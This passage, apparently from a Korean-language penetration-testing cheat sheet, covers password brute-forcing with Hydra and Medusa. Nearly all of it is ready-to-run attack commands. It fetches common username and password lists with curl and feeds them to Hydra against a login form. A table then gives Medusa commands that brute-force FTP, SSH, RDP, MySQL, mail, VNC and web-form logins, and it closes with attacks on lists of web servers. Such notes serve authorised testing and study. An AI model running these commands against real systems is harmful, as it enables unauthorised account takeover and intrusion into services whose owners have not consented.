 ```
```hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"```

### 로그인 양식 (S=성공 조건)
```hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"```

### Hydra를 위한 params 문자열 구성
```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

## 5. Medusa

### Medusa 모듈
| Medusa Module    | Service/Protocol                 | Description                                                                                 | Usage Example                                                                                                               |
| ---------------- | -------------------------------- | ------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| FTP              | File Transfer Protocol           | Brute-forcing FTP login credentials, used for file transfers over a network.                | `medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| HTTP             | Hypertext Transfer Protocol      | Brute-forcing login forms on web applications over HTTP (GET/POST).                         | `medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^` |
| IMAP             | Internet Message Access Protocol | Brute-forcing IMAP logins, often used to access email servers.                              | `medusa -M imap -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| MySQL            | MySQL Database                   | Brute-forcing MySQL database credentials, commonly used for web applications and databases. | `medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`                                                                 |
| POP3             | Post Office Protocol 3           | Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.            | `medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`                                                          |
| RDP              | Remote Desktop Protocol          | Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.       | `medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| SSHv2            | Secure Shell (SSH)               | Brute-forcing SSH logins, commonly used for secure remote access.                           | `medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`                                                                   |
| Subversion (SVN) | Version Control System           | Brute-forcing Subversion (SVN) repositories for version control.                            | `medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`                                                                  |
| Telnet           | Telnet Protocol                  | Brute-forcing Telnet services for remote command execution on older systems.                | `medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`                                                               |
| VNC              | Virtual Network Computing        | Brute-forcing VNC login credentials for remote desktop access.                              | `medusa -M vnc -h 192.168.1.100 -P passwords.txt`                                                                           |
| Web Form         | Brute-forcing Web Login Forms    | Brute-forcing login forms on websites using HTTP POST requests.                             | `medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`   |

### SSH Server 타겟팅
```medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh```

### 기본 HTTP 인증을 사용하여 여러 웹 서버 타겟팅
```medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET```

```